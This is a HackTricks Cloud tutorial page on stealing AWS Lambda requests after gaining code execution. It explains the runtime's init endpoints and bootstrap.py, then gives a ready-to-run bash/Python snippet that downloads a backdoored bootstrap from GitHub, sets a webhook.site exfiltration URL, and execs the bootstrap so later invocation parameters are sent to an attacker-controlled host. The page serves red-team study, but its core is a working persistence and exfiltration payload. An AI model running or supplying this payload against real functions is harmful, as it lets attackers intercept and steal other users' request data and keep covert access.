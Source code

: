 # AWS - Steal Lambda Requests

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Flow

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** is a process outside the container that **send** **invocations** to the **init** process.
2. The init process listens on port **9001** exposing some interesting endpoints:
   * **`/2018-06-01/runtime/invocation/next`** – get the next invocation event
   * **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – return the handler response for the invoke
   * **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – return an execution error
3. **bootstrap.py** has a loop getting invocations from the init process and calls the users code to handle them (**`/next`**).
4. Finally, **bootstrap.py** sends to init the **response**

Note that bootstrap loads the user code as a module, so any code execution performed by the users code is actually happening in this process.

## Stealing Lambda Requests

The goal of this attack is to make the users code execute a malicious **`bootstrap.py`** process inside the **`bootstrap.py`** process that handle the vulnerable request. This way, the **malicious bootstrap** process will start **talking with the init process** to handle the requests while the **legit** bootstrap is **trapped** running the malicious one, so it won't ask for requests to the init process.

This is a simple task to achieve as the code of the user is being executed by the legit **`bootstrap.py`** process. So the attacker could:

* **Send a fake result of the current invocation to the init process**, so init thinks the bootstrap process is waiting for more invocations.
  * A request must be sent to **`/${invoke-id}/response`**
  * The invoke-id can be obtained from the stack of the legit **`bootstrap.py`** process using the [**inspect**](https://docs.python.org/3/library/inspect.html) python module (as [proposed here](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) or just requesting it again to **`/2018-06-01/runtime/invocation/next`** (as [proposed here](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
* Execute a malicious **`boostrap.py`** which will handle the next invocations
  * For stealthiness purposes it's possible to send the lambda invocations parameters to an attackers controlled C2 and then handle the requests as usual.
  * For this attack, it's enough to get the original code of **`bootstrap.py`** from the system or [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), add the malicious code and run it from the current lambda invocation.

### Attack Steps

1. Find a **RCE** vulnerability.
2. Generate a **malicious** **bootstrap** (e.g. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **Execute** the malicious bootstrap.

You can easily perform these actions running:

```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```

For more info check [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## References

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
